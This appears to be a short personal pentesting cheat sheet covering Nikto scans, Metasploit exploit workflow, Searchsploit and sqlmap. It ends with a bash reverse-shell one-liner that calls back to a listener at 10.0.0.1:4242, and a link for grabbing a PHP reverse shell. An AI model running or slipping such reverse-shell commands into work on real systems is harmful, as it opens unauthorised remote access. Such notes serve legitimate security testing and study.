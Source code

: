# Exploit

## Nikto
Check for vulnerabilities
```console
$ nikto -h <IP>
```

## Metasploit
Open console
```console
$ msfconsole
```
Search for exploit
```console
msf6 > search <KEYWORD> ?VERSION?
```
After found exploit, use it
```console
msf6 > use <ID>
```
Then, check for options
```console
msf6 > options
```
Set upp everything
```console
msf6 > set <KEY> <VALUE>
```

Then, letz go!
```console
msf6 > exploit -v
```

## Searchsploit
Search for exploit
```console
$ searchsploit <KEYWORDS>
```
After found exploit, get it
```console
$ searchsploit -m <ID/PATH>
```

## SQLmap
```console
$ sqlmap
```

## Reverse shell
Useful $hit

### Bash
```console
$ bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

### PHP reverse shell
This bull$hit windows defender does not allow to get this php file to my machine, so just grab it from a random github:
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
